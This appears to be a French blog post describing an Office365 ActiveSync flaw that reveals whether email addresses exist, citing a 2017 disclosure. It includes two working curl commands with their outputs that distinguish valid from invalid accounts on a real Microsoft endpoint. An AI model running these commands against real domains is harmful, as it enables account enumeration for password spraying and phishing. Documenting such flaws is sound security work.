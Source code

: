 ```yaml
---
layout: post
title: Office365 / Fuite de données - Enumération d'adresses mail valides
tags: [Office365 Sécurité Cloud]
---
```


Le service ActiveSync d'Office365 présente une faille permettant de vérifier la validité des adresses mail d'un domaine (si l'adresse mail est utilisée en tant qu'identifiant). Les retours HTTP sont en effet différents en fonction de l'exitence ou non d'un identifiant spécifique.

Ce problème a initialement été signalé ici : https://www.sec-1.com/blog/2017/office365-activesync-username-enumeration

Prévenu par l'auteur fin Juin 2017, Microsoft n'a pas jugé ce problème suffisamment critique pour prévoir un correctif.

L'url Activesync https://outlook.office365.com/Microsoft-Server-ActiveSync ne semble par ailleurs pas être protégée par un système de throttling permettant d'éviter les requêtes trop nombreuses sur une période donnée.

## Exemple

**Adresse e-mail valide (prenom.nom@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom@mondomaine.fr:motdepassebidon' | base64); curl -v -X OPTIONS \
-H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
<pas de retour>
```

**Adresse e-mail inexistante (prenom.nom.bidon@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom.bidon@mondomaine.fr:motdepassebidon' | base64); curl -v \
-X OPTIONS -H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
< X-CasErrorCode: UserNotFound
```
